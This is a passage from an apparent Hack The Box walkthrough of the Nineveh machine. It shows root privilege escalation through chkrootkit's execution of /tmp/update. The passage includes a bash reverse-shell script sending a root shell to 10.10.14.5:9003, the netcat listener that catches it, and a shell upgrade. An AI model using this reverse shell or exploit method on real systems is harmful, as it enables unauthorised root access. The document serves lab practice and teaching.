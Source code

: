 ## root
- Run linpeas again, and we can see that /reports is present in the root directoru, which shouldn't be, and reports are being generated every minute.
- (Saw this part in ippsec's video) Create a script which can detect commands being run, thus giving us the information that /usr/bin/chkrootkit is being run by root.
- Checking for it searchsploit 
```text

...[snip]...
Steps to reproduce:

- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously)
- Run chkrootkit (as uid 0)

Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file.

If an attacker knows you are periodically running chkrootkit (like in
cron.daily) and has write access to /tmp (not mounted noexec), he may
easily take advantage of this.


Suggested fix: Put quotation marks around the assignment.
...[snip]...

```
- So we can just create a file called update in /tmp. 
- Edit the file to put a reverse shell code in it.
```bash
amrois@nineveh:/tmp$ cat update
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.5/9003 0>&1'

```
- `chmod +x update`
- Open a listener on the local machine, we will get a connection from root in the next minute mark.
```bash
╭─norman@kali ~/Hack-The-Box/machines/nineveh/ssh ‹main*› 
╰─$ nc -lnvp 9003                                                                                                 1 ↵
listening on [any] 9003 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.43] 57406
bash: cannot set terminal process group (6090): Inappropriate ioctl for device
bash: no job control in this shell
root@nineveh:~# python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@nineveh:~# ^Z
```